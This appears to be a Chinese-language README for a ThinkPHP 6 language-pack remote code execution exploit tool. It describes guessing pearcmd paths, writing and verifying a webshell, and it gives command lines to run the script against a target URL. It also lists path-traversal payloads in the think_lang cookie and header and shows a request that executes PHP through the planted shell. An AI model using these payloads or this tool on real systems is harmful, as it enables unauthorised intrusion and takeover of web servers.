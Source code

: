 # thinkphp_Lang_exp
thinkphp6 Lang RCE exp


### 说明
猜解常用pearcmd路径

解决GET请求时写入webshell 特殊字符自动编码问题，造成找不到有效　<?php 标记 ，文件将无法解析。
如：< >编码 %3c%3e 

验证webshell有效性


### 使用方法：

```bash
#默认
python3 thinkphp_Lang_exp.py -u http://xxxx/index.php

#自定义
python3 thinkphp_Lang_exp.py -u http://xxxx/index.php -m ../../pearcmd_path -p /tmp/shell.php
```

### 利用
**GET连接shell**

请求头
Cookie: think_lang=../../../../../../../../../../../tmp/eeew

或

think_lang: ../../../../../../../../../../../tmp/eeew

get: http://url/?1=phpinfo()

**POST连接shell**
参考exp

### 分析文章：

https://mp.weixin.qq.com/s/GWZ_X_jFdrq5TQW2otSL5Q

